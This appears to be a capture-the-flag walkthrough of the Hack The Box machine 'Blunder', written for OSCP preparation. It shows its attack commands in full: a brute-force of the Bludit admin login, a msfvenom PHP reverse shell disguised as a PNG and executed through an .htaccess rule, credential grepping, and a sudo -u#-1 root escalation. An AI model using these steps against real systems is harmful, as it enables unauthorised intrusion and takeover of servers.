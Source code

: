 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
**Focus:** Bludit RCE, Web enumeration, LXD priv esc  
**Tags:** OSCP Prep, TJNull List

---

## 📡 Recon

### Rustscan

```bash
rustscan -a 10.129.190.208 --ulimit 5000 -- -A
```

### /etc/hosts

```bash
echo "10.129.190.208 blunder.htb" | sudo tee -a /etc/hosts
```

### Directory Fuzzing

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://blunder.htb/FUZZ
```

---

## 🌐 [Web Enumeration](HTTP)

- Found `/admin` login panel.
- Bludit version found in HTML source: `3.9.2`

---

## 🔍 Credential Brute-force

### Attempt #1 - Default user

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u admin -p /usr/share/wordlists/rockyou.txt
```

### Discovering `fergus` from `todo.txt`

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.191/FUZZ -e .php,.txt,.html -t 64
```

#### Then retry with `fergus`:

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p /usr/share/wordlists/rockyou.txt
```

### Custom Wordlist with `cewl`

```bash
cewl -w output.txt http://10.10.10.191
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p ./output.txt
```

✅ **Password found:** `RolandDeschain`

---

## 💥 Authenticated RCE Exploit

### Payload Creation

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.3 LPORT=1234 -f raw -b '"' > evil.png
echo -e "<?php $(cat evil.png)" > evil.png
```

### .htaccess File

```bash
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```

> Upload both files via Burp Suite and adjust paths to write to `../../tmp/temp`.

### Trigger Payload

```bash
nc -lvnp 1234
curl http://10.10.10.191/bl-content/tmp/temp/evil.png
```

---

## 🐚 Shell as www-data ➝ Enumerate

### Decompressing `config`

```bash
mv config config.gz
gzip -d config.gz
tar -xvf config
```

---

## 👤 Shell as Hugo

### Grep for Credentials

```bash
grep -ir hugo /var/www
```

Found SHA1 hash → Cracked with CrackStation: `Password120`

```bash
su hugo
```

✅ **User Flag:** `/home/hugo/user.txt`

---

## 🧑‍🔧 Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

Allowed to run `/bin/bash` as any user except root.

```bash
sudo -u shaun /bin/bash
```

### LXD Check

```bash
id
```

If in `lxd` group, proceed with:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
lxc image import ./alpine-*.tar.gz --alias myimage
```

*(Didn’t work due to missing command... fallback below)*

---

### Sudo Vulnerability Exploit (version < 1.8.28)

```bash
sudo -V
sudo -u#-1 /bin/bash
```

✅ **Root Flag:** `/root/root.txt`
